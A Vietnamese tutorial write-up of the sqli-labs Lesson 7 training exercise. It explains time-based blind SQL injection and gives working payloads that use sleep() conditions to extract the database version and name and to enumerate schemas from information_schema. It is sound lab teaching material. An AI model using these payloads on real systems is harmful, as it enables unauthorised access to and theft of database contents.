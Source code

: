 # Những việc làm được với lesson-7
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-7 

![](../images/lesson7/screen_9.png)

1. Yêu cầu của nó là nhập ID và ta thử nhập nó vào. và dự đoán cấu trúc của câu truy vấn.

![](../images/lesson7/screen_1.png)

Khi ta nhập id thì như vậy sẽ pass được qua. Nhưng khi ta thêm ký tự đặc biệt vào thì nó không báo lỗi cụ thể ra ngoài màn hình mà nó chỉ thông báo là có lỗi 

![](../images/lesson7/screen_2.png)

Có nghĩa là ta không thể dùng `error-base` cho bài này. Vậy nên ta phải dùng một loại khác. Trước tiên ta tìm cấu trúc câu lệnh truy vấn 

Sau những lesson trước thì thấy rằng khi ký tự đặc biệt có lỗi mà thêm `--+` cuối cùng đúng thì nó là cấu trúc của URL. Ví dụ 

![](../images/lesson7/screen_4.png)

![](../images/lesson7/screen_3.png)

Vậy cấu trúc của nó là
```
?id=1')) --+
```

2. Kiểm tra version. 
- Ở bài này chúng ta không thể `select` được dữ liệu mà cũng không thể  bắn ra lỗi được. Ta sẽ phải sử dụng Time-base để có thể tìm ra được version của DB 
```
192.168.80.225/sqli-labs/Less-7/?id=1')) and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```

![](../images/lesson7/screen_11.png)

Ta có câu lệnh ở đây là truy xuất và lấy 1 ký tự đầu tiên trong kết quả so sánh với 5. Và ký tự đầu tiên đúng nên nó đã dừng lại 5s

![](../images/lesson7/screen_5.png)

Còn ở dưới câu lệnh của nó sẽ là so sánh với ký tự khác nó sai và nó đã không dừng lại 5s. Vậy ta biết ký tự đầu tiên của phiên bản này 

```
192.168.80.225/sqli-labs/Less-7/?id=1')) and if(substr((select @@version),1,3)='5.5',sleep(5.5),false) --+
```
![](../images/lesson7/screen_6.png)

Tương tự như thế ta có thể tìm được các ký tự tiếp theo của phiên bản bằng cách tăng số này lên. 

3. Tương tự như thế ta có thể kiểm tra được databases. 
```
192.168.80.225/sqli-labs/Less-7/?id=1')) and if(substr((select database()),1,1)='5',sleep(5),false) --+
```

![](../images/lesson7/screen_7.png)

Tiếp tục tăng toán tử là ta có thể thấy được tên của DB

4. Show tất cả tên của các DB 
```
192.168.80.225/sqli-labs/Less-7/?id=1')) and if(substr((select group_concat(SCHEMA_NAME) from information_schema.schemata),1,1)='i',sleep(5.5),false) --+
```

![](../images/lesson7/screen_8.png)

Ta có các DB được liệt kê cách nhau một dấu `,` tương tự các truy vấn select như bài 1 ta có thể thay thế vào select là ta có thể biết được toàn bộ DB này


